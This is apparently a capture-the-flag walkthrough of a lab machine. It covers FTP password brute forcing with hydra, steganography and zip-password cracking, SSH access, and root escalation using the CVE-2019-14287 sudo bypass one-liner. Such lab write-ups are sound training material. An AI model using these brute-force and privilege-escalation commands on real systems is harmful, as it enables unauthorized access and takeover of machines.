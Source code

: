 ## Target IP: `10.10.89.204`

### Port Scan

**Open Ports:**

| Port | Service |
| --- | --- |
| 21 | FTP |
| 22 | SSH |
| 80 | HTTP |

---

### Web Enumeration

- Visiting `http://10.10.89.204` showed a prompt:
    
    ```
    Dear agents,
    
    Use your own codename as user-agent to access the site.
    
    From,
    Agent R
    ```
    
- Tried with curl:

```bash
curl -A "R" -L 10.10.89.204
```

- `A` sets the user-agent
- `L` follows redirects
- `curl` makes HTTP requests (like a terminal-based web browser)
- Response:
    
    ```
    What are you doing! Are you one of the 25 employees? If not, I going to report this incident
    ```
    
- Brute-forced the user-agent with letters of the alphabet.
- Using `A "C"` returned:
    
    ```
    Attention chris,
    
    Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!
    
    From,
    Agent R
    ```
    

---

### FTP Brute Force

- Attempted FTP login for `chris`:

```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.89.204 ftp
```

- Successful login:
    
    **Username:** `chris`
    
    **Password:** `[REDACTED]`
    
- Connected via FTP:
    - `ls` triggered passive mode → disabled with `passive`
    - Files found:
        - `cute-alien.jpg`
        - `cutie.png`
        - `To_agentJ.txt`
- Downloaded all files using:

```bash
get <filename>
```

*(Could have used `mget *` to download all at once)*

---

### Message from Agent C

**To_agentJ.txt**:

```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

---

### Stego and File Extraction

- Used `binwalk` (tool for looking for hidden things inside files) to analyze `cutie.png`:

```bash
binwalk cutie.png
binwalk -e cutie.png
```

- Found and extracted:
    - `365`
    - `365.zlib`
    - `8702.zip` (password protected)
- Cracked zip password with John:

```bash
zip2john 8702.zip > zip.hash
john zip.hash
```

- Password: `[REDACTED]`
- Unzipped using 7zip due to `unzip` errors:

```bash
7z e 8702.zip
```

- File extracted: `To_agentR.txt`

**Contents:**

```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

- Used [CyberChef](https://gchq.github.io/CyberChef/?ref=blog.qz.sg) to decode `QXJlYTUx` (base64) → `Area51`

---

### Hidden Message in JPG

- Investigated `cute-alien.jpg` using steghide (commonly used to hide data inside jpg files with a passphrase):

```bash
steghide info cute-alien.jpg
```

- Found embedded file: `message.txt`

```bash
steghide extract -sf cute-alien.jpg
cat message.txt
```

**message.txt:**

```
Hi james,

Glad you find this message. Your login password is [REDACTED]

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

---

### SSH Login

- SSH login:

```bash
ssh james@10.10.89.204
```

**Credentials:**

- Username: `james`
- Password: `[REDACTED]`
- Found:
    - `Alien_autospy.jpg`
    - `user_flag.txt`
- Downloaded the JPG file using SCP from outside SSH session:

```bash
scp james@10.10.89.204:/home/james/Alien_autospy.jpg .
```

- Reverse image search of the JPG → Flag: `roswell alien autopsy`

---

### Privilege Escalation

- Checked identity and groups:

```bash
whoami
id
```

- `sudo -l` output:

```
(ALL, !root) /bin/bash
```

- Meant James can run `/bin/bash` with sudo for any user *except* root.
- Google search for “(ALL, !root) /bin/bash exploit”
- Found exploit (CVE-2019-14287) that works on sudo < 1.8.28
- Checked sudo version:

```bash
sudo --version
```

- Version: 1.8.21 (machine is vulnerable)
- Downloaded Python exploit to `/tmp`:

```bash
scp ~/Downloads/47502.py james@10.10.89.204:/tmp/
python3 /tmp/47502.py
OR
chmod +x /tmp/47502.py
/tmp/47502.py
```

- This did not work.
- Searched the CVE online and came across a site that gave this command

```bash
sudo -u \#$((0xffffffff)) /bin/bash #  I added the /bin/bash
```

- Bypasses blacklist, spawns root shell.
- Confirmed:

```bash
whoami
```

- `root`
- Located and read `root.txt`
